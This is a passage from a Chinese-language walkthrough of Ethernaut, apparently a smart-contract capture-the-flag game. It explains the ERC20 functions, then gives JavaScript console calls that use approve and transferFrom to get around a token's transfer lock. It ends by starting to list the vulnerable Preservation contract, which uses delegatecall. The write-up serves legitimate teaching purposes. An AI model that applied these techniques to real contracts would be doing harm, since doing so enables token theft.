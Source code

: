       >   ERC20是以太坊上最常用的代币标准之一，它定义了一个标准的接口，规定了代币合约应该实现的函数，包括以下函数及其功能：
      >
      >   1.  totalSupply()：获取代币的总发行量。
      >   2.  balanceOf(address _owner)：获取指定地址_owner的代币余额。
      >   3.  allowance(address _owner, address _spender)：查询_owner授权给_spender可以花费的代币数量。
      >   4.  transfer(address _to, uint256 _value)：将自己的代币转移到指定地址_to，并返回是否成功。
      >   5.  approve(address _spender, uint256 _value)：授权_spender可以花费_value个代币。
      >   6.  transferFrom(address _from, address _to, uint256 _value)：从_from账户中转移_value个代币到_to账户，并减少授权_spender能够花费的代币数量。
      >   7.  name()：获取代币的名称。
      >   8.  symbol()：获取代币的符号。
      >   9.  decimals()：获取代币的小数位数。
      >
      >   其中，1-6个函数是ERC20标准的必须实现函数，用于代币的转移、授权和查询，其余三个函数是可选的，用于代币的描述和信息展示。

      使用 `approve`为我们授权最大代币数量

      使用 `transferFrom`转出代币,也即是`transfer`只是一个幌子

      ```js
      //查看允许数量
      (await contract.allowance(player, "0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F")).toString()
      //设置最大代币数量
      await contract.approve("0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F", (await contract.balanceOf(player)).toString())
      //花
      await contract.transferFrom(player, '0x0000000000000000000000000000000000000000', (await contract.balanceOf(player))) 
      // 转到0地址会报错，换成题目的合约地址
      ```

17.   ```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.0;
      
      contract Preservation {
      
        // public library contracts 
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner; 
        uint storedTime;
        // Sets the function signature for delegatecall
        bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
      
        constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
          timeZone1Library = _timeZone1LibraryAddress; 
          timeZone2Library = _timeZone2LibraryAddress; 
          owner = msg.sender;
        }
       
        // set the time for timezone 1
        function setFirstTime(uint _timeStamp) public {
          timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
        }
      